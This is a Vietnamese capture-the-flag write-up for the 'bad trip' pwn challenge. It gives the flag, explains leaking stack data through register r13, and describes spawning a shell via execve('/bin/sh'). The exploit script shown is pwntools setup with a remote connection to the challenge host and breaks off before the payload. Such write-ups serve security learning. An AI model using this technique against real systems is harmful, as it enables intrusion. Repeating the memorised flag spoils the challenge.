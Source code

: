 flag: `AKASEC{pr3f37CH3M_Li8C_4Ddr35532}`

Chal này vẫn giống bài good trip, nhưng có một vài thay đổi

![image](https://lunaere-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F3296390032-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FJGK9O9RgeCP7yW9iJ1CJ%252Fuploads%252Fb2IUy5SMuo6xbSWrJ17s%252Fimage.png%3Falt%3Dmedia%26token%3Da49bb9e7-cb75-4e9c-8d39-1d4f52d5a14e&width=768&dpr=1&quality=100&sign=c6134a02fe364c564af85e2f0726b2c10a28f35abfeecaab622b4926d9ccd955)

![image](https://lunaere-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F3296390032-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FJGK9O9RgeCP7yW9iJ1CJ%252Fuploads%252FBBCYFUYGozaD4Y5pIeKp%252Fimage.png%3Falt%3Dmedia%26token%3D6d068306-6343-4482-8385-f7ec83b2cae4&width=768&dpr=1&quality=100&sign=27ced187a5401f2d07b5ab6b0bf05281e02f1beac12c893cc236fa8e8755ca8c)

- Code vẫn như cũ, chỉ là không cần input length
- Không có libc leak trên thanh ghi
- Có thêm một vùng nhớ mới có thể write data

Lúc đầu chal cho 4 byte cuối của puts, mình tưởng phải gacha 1 byte sau với libc (7fxx..., xx là byte ko biết) lol, nhưng ko cần.

Ở chal này, thanh `$r13` chứa địa chỉ của stack (lúc này đang chứa env?) trước khi jump tới shellcode, nên ta có thể leak được data trên stack bằng cách trừ `$r13` với offset.

![image](https://lunaere-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F3296390032-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FJGK9O9RgeCP7yW9iJ1CJ%252Fuploads%252F8HVjdhEALWNhIb1cjrSy%252Fimage.png%3Falt%3Dmedia%26token%3Dcce56744-bde4-4332-ad60-afcf8db80e88&width=768&dpr=1&quality=100&sign=94d6e994b9d77dc457c57447d5aa62d5b4e8c91149ad4e4ba3fe2fd715c7face)

yup, và gọi `execve('/bin/sh', NULL, NULL)` như chal trước là được

### Fullpayload:

```py
#!/usr/bin/python3

from pwn import *

exe = ELF('bad_trip_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)
r = lambda nbytes: p.recv(nbytes)
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()

def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
            b*exec+71

        c
        vmmap
        ''')
        input()


if args.REMOTE:
    p = remote('172.210.129.230', 1352)
else:
    p = process(exe.path)
GDB()
```
